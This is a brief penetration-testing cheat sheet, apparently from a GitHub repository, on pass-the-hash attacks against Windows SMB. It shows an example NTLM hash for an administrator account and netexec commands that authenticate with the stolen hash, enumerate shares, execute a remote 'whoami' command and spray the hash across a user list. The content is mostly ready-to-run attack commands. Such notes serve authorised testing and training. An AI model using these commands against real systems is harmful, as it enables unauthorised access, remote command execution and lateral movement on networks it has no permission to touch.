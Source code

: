 If we have managed to get NTML hash of user. We can use this hash to authenticate our self to SMB using `pass-the-hash` attack.

Example of the hash
```powershell
administartor:2B576ACBE6BCFDA7294D6BD18041B8FE
```

We can perfrom pass the hash using `netexec` 
```sh
nxc smb 192.168.1.1 -u administartor -H 2B576ACBE6BCFDA7294D6BD18041B8FE
nxc smb 192.168.1.1 -u administartor -H 2B576ACBE6BCFDA7294D6BD18041B8FE --shares
nxc smb 192.168.1.1 -u administartor -H 2B576ACBE6BCFDA7294D6BD18041B8FE --X "whoami"
```

And we can spray the hash to understand to which user it belongs to.
```
nxc smb 192.168.1.1 -u user.txt -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```